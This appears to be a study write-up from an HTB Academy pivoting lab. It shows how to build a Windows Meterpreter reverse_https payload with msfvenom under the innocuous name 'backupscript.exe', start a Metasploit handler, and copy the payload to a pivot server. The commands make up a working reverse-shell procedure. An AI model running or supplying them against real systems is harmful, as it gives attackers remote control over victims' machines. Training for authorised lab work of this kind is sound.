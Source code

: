 ## **Practical Implementation (HTB Academy Lab)**

### **Step 1: Create Meterpreter Payload**

**Generate Windows HTTPS Payload:**
```bash
# Create payload pointing to pivot host internal IP
msfvenom -p windows/x64/meterpreter/reverse_https \
  lhost=172.16.5.129 \
  lport=8080 \
  -f exe \
  -o backupscript.exe

# Output
Payload size: 712 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

**Key Points:**
- **LHOST** = Pivot internal IP (`172.16.5.129`)
- **LPORT** = Port on pivot for forwarding (`8080`)
- **Format** = Windows executable

### **Step 2: Configure Metasploit Handler**

**Set up Multi Handler:**
```bash
# Start msfconsole
msfconsole

# Configure handler
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost 0.0.0.0    # Listen on ALL interfaces
set lport 8000       # Local port for incoming connections
run

# Output
[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```

**Important:**
- **LHOST = 0.0.0.0** (listen on all interfaces)
- **LPORT = 8000** (different from payload port)

### **Step 3: Transfer Payload to Pivot**

**Copy Payload to Ubuntu Server:**
```bash
# SCP transfer
scp backupscript.exe ubuntu@10.129.202.64:~/

# Verify transfer
ssh ubuntu@10.129.202.64 ls -la backupscript.exe
```
